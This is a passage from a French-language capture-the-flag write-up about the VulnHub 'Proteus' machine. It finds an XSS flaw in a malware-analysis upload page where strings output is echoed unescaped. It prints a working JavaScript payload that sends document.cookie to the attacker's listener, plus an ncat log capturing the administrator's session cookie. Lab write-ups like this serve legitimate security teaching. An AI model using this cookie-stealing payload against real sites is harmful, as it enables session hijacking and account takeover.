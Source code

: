 ![VulnHub CTF Proteus Wapiti report](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/proteus/wapiti.png)

Quand on uploade un fichier dans le format attendu (binaire ELF) il semble que le site applique les exécutables *strings* et *objdump* dessus.  

L'output obtenu laisse supposer que le nom de fichier est encodé en base64 pour être stocké. De toute façon on ne trouve nul par sur le serveur un endroit où les fichiers auraient pu être déposés.  

*Objdump* semble lui travailler sur un nom de fichier correspondant à une partie du hash du fichier.  

![VulnHub CTF Proteus sample analysis](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/proteus/analysis.png)

Quand on regarde le code source de la page de l'analyse on remarque que certains caractères ne sont pas échappés correctement (ici un guillemet) laissant supposer que l'output de la commande strings n'est pas proprement échappé et donc vulnérable à une faille XSS :  

```html
name<br />
help<br />
version<br />
;*3$"<br />
.shstrtab<br />
.interp<br />
.note.ABI-tag<br />
```

On sait d'après l'interface qu'un administrateur nommé *malwareadm* existe... Et c'est devenu assez fréquent qu'un comportement humain soit simulé sur les CTFs (merci les browsers headless).  

Pour faire propre j'ai utilisé le même javascript que pour [le CTF RedCross](http://devloop.users.sourceforge.net/index.php?article191/solution-du-ctf-redcross-de-hackthebox) :  

```javascript
<script>var img = document.createElement("img"); img.src = "http://192.168.3.254:8000/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Ça finit par toquer à la porte :  

```plain
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 192.168.3.2.
Ncat: Connection from 192.168.3.2:43926.
GET /?proteus_session=1562973841%257C6DykMjVayEuyDaO2MA75biEkHpbkAeEpgelifplF8t624gsReZu3kbj6FPy%252Fr66tM6LauT9b5v4RGyOJeW6M4qM60m7d%252Fqgz%252BXIsZru6FsbM53W27Dp%252FeBgqtjMuamgk%257Ccbbdae8d8104e586184dd1db69af8c4add06addb HTTP/1.1
Referer: http://127.0.0.1/samples
User-Agent: Mozilla/5.0 (Unknown; Linux i686) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-ZA,*
Host: 192.168.3.254:8000
```
